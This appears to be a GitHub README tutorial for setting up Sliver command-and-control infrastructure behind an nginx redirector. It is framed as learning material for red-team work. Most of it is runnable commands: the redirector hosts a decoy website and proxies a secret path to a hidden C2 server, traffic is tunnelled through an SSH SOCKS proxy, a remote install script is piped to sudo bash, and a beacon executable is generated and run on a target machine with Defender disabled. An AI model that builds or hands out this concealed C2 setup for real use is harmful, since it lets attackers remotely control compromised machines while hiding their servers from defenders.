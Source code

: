 # Simple C2 Redirector Infrastructure
Step-by-step [Youtube Video](https://youtu.be/WxtQnFDBPgI)

Simple C2 Path Redirector with nginx to help learn the basics of C2 infrastructure.

Requirements:
* (2) Ubuntu VMs in the cloud with **at least** 1 CPU and 2 GB RAM each
* (1) Domain

<img width="772" height="366" alt="image" src="https://github.com/user-attachments/assets/25eeb7de-c954-4065-889c-ce0ad9905e93" />

# 1. Create VMs in Cloud
First create two VMS in your favorite Cloud service (AWS, Azure, etc):  
* Redir-VM - Will be exposed to the internet and serve as the *fake website* using nginx   
* C2-VM - Will be your C2 (in this case Sliver) and NOT exposed to the internet at all

These two VMs will be in the **SAME private network** with the following network configs.  
**C2-VM**:
- Create in local network private network
- NO Public IP or ports open to the Internet
- Make sure to create an SSH key for these VMs

**Redir-VM** (You can change 8443 to whatever port but change throughout future steps if you do):  
- Inbound  
   - 22 to only your IP(s)  
   - 80 to any IP  
   - 443 to any IP  
   - 8443 to any IP
- Outbound  
    - 80 to any IP  
    - 443 to any IP  
    - 8443 to any IP   

Once you get your public IP for Redir-VM, make an *A-record* DNS entry to your domain and the public IP.


# 2. Setup Redir-VM
_Perform the following commands on Redir-VM unless stated otherwise._

First lets configure the redirector which will host a fake website using nginx and when a certain path is given, it will redirect to the C2 server.
```
sudo apt update && sudo apt upgrade
sudo apt-get install -y nginx certbot net-tools
sudo systemctl stop nginx
sudo certbot certonly --register-unsafely-without-email -d <www.youdomain.com>
```
_Note: for certbot, enter [1] then [y] when prompted_  
Create your fake website in _/var/www/html_ by changing _index.html_ to your own code or use the one in the repo and change the wording a bit to make sense for your domain.

Create your redirector in _/etc/nginx/sites-available_ by adding the _default_ file from the repo to replace the one there. Update _sub.domain.com_ to your domain.
```
sed -i 's/sub.domain.com/your.domain.com/g' /etc/nginx/sites-available/default
```

CHANGE _secretpath_ to something custom, make sure its random looking and long. so something like:
```
  location /ajisdfYUVSbgseoznauitrcbXBWDG {
                proxy_pass https://<C2-ip>:443;
        }
```
Start up nginx
```
sudo systemctl start nginx
```

Upload your SSH key to Redir-VM so you can connect to C2-VM through SSH  
From your host to Redir-VM:
```
scp -i <yourSSH-.pem-file> <yourSSH-.pem-file> <user>@<Redir-VM-IP>:/home/<user>/.ssh/id_rsa
```
Chmod 400 to the SSH key on Redir-VM. 
```
chmod 400 ~/.ssh/<your-private-key>
```
Copy over the same SSH key to the C2 to do reversee SSH connections in the next step  
From Redir-VM to C2-VM:
```
scp /home/<user>/.ssh/id_rsa <user>@<c2-VM-IP>:/home/<user>/.ssh/id_rsa
```

# 3. Setup C2-VM

_Perform the following commands on C2-VM unless stated otherwise. Make sure the SSH key is on C2-VM from previous step in order to perform reverse SSH connection._

Setup SSH reverse connection from C2-VM to Redir-VM in order to reach the internet and download Sliver.  
This will leave the prompt hanging so open up another terminal for the other steps or run this in tmux or screen session.
```
ssh -D 1080 -q -N <user>@<Redir-VM-PRIVATE-IP>
```
*Note: This will leave the prompt hanging so open up another terminal for the other steps or run this in tmux or screen session*

Test SSH reverse connection by using curl with socks5, it should return the IP of Redir-VM's public IP.
```
curl --socks5-hostname 127.0.0.1:1080 ifconfig.io
```
Install your C2 using socks5 (in this case Sliver).
```
curl --socks5-hostname 127.0.0.1:1080 https://sliver.sh/install|sudo bash
```

Once it finishes installed, exit or cancel the _ssh -D_ command with _Ctrl + C_ in the terminal.


# 4. Configure Your C2
Again, this will be using sliver so modify steps to your C2 and we will be using defaul configs since this is not a tutorial on bypassing EDR.
Use Sliver's latest [Wiki](https://sliver.sh/docs?name=Compile+from+Source) in case specific configs change.  

Confirm Sliver is installed (running as sudo to use HTTPS, screen is optional).
```
sudo su
screen -S sliver-session
sliver
```

Generate a beacon and start HTTPS listener.
```
generate beacon --http <yourDomain>:8443/<yourSecretRedirPath> --save yourBeacon.exe

https
```

Transfer over payload (yourBeacon.exe) to a machine an run it (Make sure Defender is turned off if using default configs).
```
On C2-VM:
chmod 777 <beacon.exe-location>

On Redir-VM: 
scp -i <SSH-key> <user>@<C2-VM-IP>:/<beacon.exe-location> .

On host to get it from Redir-VM:
scp -i <SSH-key> <user>@<Redir-VM-public-IP>:/<beacon.exe-location> .
```


